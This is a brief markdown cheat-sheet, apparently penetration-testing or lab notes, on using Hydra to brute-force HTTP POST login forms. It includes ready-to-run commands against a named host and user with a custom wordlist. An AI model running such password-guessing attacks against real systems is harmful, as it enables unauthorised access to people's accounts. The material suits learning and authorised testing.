 #### Command Usage
```
hydra -L <user_list> -P <password_list> <target> <service>
```

#### HTTP Form
```
hydra -L users.txt -P passwords.txt IP http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"
```

- `/login.php`: The login page URL where the request will be sent.
- `Invalid`: Login failure, hydra looks for this in the response to determine whether the login attempt was successful.

```
hydra -l wscarlett -P /usr/share/wordlists/custom/ozone-wordlist.txt ozone-energy.bitnet http-form-post "/[LOGINPAGE]:username=^USER^&password=^PASS^&Login=Login:Invalid Password"

or 

hydra -l wscarlett -P /usr/share/wordlists/custom/ozone-wordlist.txt ozone-energy.bitnet http-form-post "/[LOGINPAGE]:username=^USER^&password=^PASS^&Login=Login:Invalid"
```

- `http-post-form`: It is used to brute-force HTTP POST login forms
- `[LOGINPAGE]`: replace this placeholder with the actual login page name (e.g. admin-login)
